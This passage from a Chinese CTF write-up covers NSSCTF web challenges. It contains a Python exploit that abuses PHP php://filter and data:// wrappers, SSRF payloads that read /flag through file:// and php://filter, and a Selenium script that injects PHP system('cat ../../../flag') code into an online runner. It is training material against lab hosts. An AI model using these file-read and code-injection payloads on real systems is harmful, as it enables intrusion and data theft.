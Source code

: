exp:

```python
import requests,base64
response1=requests.get('http://node4.anna.nssctf.cn:28518/index.php?wllm=php://filter/read=convert.base64-encode/resource=hint.php')
tmp1=response1.text[-56:]
tmp2=base64.b64decode(tmp1.encode())
# print(tmp2)

response2=requests.get('http://node4.anna.nssctf.cn:28518/test2222222222222.php?a=data://text/plain,I want flag')
print(response2.text[-44:])
```

## 4.[NISACTF 2022]easyssrf

SSRF，尝试访问：

```
file:///flag
```

访问：

```
file:///fl4g
```

访问：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php
```

php伪协议：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php?file=php://filter/read=convert.base64-encode/resource=/flag
```

## 5.[LitCTF 2023]PHP是世界上最好的语言！！

```python
from selenium import webdriver
import time
browser=webdriver.Edge()
browser.get('http://node5.anna.nssctf.cn:28327/')
elem1=browser.find_element_by_id('php_code');
elem1.send_keys("<?phpsystem(\"cat ../../../flag\");?>")
elem2=browser.find_element_by_id('run');
elem2.click()
time.sleep(1)
elem3=browser.find_element_by_id('run_result');
print(elem3.text[-44:]);
browser.quit()
```
